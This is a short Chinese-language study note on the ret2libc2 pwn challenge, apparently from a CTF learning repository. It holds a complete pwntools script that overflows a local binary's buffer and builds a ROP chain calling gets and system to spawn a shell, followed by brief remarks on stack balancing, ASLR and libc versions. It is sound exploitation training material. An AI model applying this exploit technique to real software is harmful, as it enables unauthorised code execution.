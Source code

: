 





```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```



pop_ebx不是调用约定的事,是为了堆栈平衡,正常执行下去,那加一个nop也行?????

http://t.zoukankan.com/afanti-p-12661561.html

![image-20220918190452872](../images/image-20220918190452872.png)



![image-20220918192042072](../images/image-20220918192042072.png)



![image-20220918192454709](../images/image-20220918192454709.png)

![image-20220918192643522](../images/image-20220918192643522.png)

![image-20220918192759272](../images/image-20220918192759272.png)



开启aslr随机化后,加载的地址都在变,但后三位不变

![image-20220918193720080](../images/image-20220918193720080.png)





搜索libc一直失败

![image-20220918195605813](../images/image-20220918195605813.png)



要先把题目的libc版本切换后才可以找到正确的!!!

![image-20220918195807091](../images/image-20220918195807091.png)

### 调用约定

![image-20220918190058007](../images/image-20220918190058007.png)





ida跳转到指定地址快捷键 g